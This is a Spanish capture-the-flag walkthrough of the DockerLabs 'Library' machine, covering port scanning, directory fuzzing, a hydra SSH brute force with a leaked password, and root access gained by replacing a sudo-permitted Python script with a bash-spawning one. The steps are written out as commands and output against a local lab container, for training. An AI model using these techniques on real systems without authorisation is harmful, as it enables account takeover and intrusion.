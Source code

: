 # Library
![library](https://github.com/TBrux/DOCKERLABS/assets/168732212/d36c54cb-c234-423e-ac6f-d3323a8a6cfd)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

Como tenemos abiertos los puertos 22 y 80 vamos a comprobar la versión y lanzar unos scripts básicos de reconocimiento para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 22 (SSH) y 80 (HTTP)..
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOE+AMUTmmJFie8NgXoV0LWMWmHQU2yXAMVJnPC/JPzRYOstWvVS+YjLNy2mNK2aKFi/ubqYfwGq5IkKZgXTUEA=
|   256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKaYjuffpq2p5LshURmRdGCPjM1gO/+OI5UZ4l37IkRF
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
```
Como la versión de **ssh** no permiete la enumeracíon de puertos, y en el puerto 80 encontramos la página principal de **Aparche2** vamos a hacer fuzzing a la página y ver si encontramos alguna ruta interesante.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
```
```
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 26]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
Encontramos una página **index.php**, que si la visitamos encontramos lo que parece una contraseña.

![pass](https://github.com/TBrux/DOCKERLABS/assets/168732212/7b406527-b70f-43fe-b023-e103dbc53e5e)

## Explotación.

Con esta contraseña podemos probar a entrar por fuerza bruta por el puerto **ssh** (22).
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2
```
```
❯ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-26 12:14:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
```
Ya tenemos un usuario **carlos** y passsword **JIFGHDS87GYDFIGD**, por lo que nos conectamos por ssh.
```bash
❯ ssh carlos@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:Hvih5sjfx4Qwfp0rb0aWHkFvIxZbFo+cyOaoqbCHXSI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
carlos@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.5.0-kali3-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
carlos@fa0a812dce21:~$ 
```

## Escalada de privilegios.
Probamos a ver si encontramos algún archivo que podemos ejecutar con el usuario **carlos** pero con privilegios de **root**.
```bash
carlos@fa0a812dce21:~$ sudo -l
Matching Defaults entries for carlos on fa0a812dce21:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on fa0a812dce21:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```
```
carlos@fa0a812dce21:/opt$ ll
total 12
drwxr-xr-x 1 carlos root 4096 May 26 10:20 ./
drwxr-xr-x 1 root   root 4096 May 26 10:04 ../
-r-xr--r-- 1 carlos root  272 May  7 15:19 script.py
```
Como tenemos permisos de ese fichero podemos elimiar este fichero llamado **script.py** y crear otro para que nos lance una bash cuando lo ejecutemos, así como lo ejecutamos como **root**, ya tenemos control total.
```python        
import os

os.system('/bin/bash -p')
```
```bash
sudo -u root /usr/bin/python3 /opt/script.py 
```
```
carlos@fa0a812dce21:/opt$ sudo -u root /usr/bin/python3 /opt/script.py 
root@fa0a812dce21:/opt# whoami
root
```


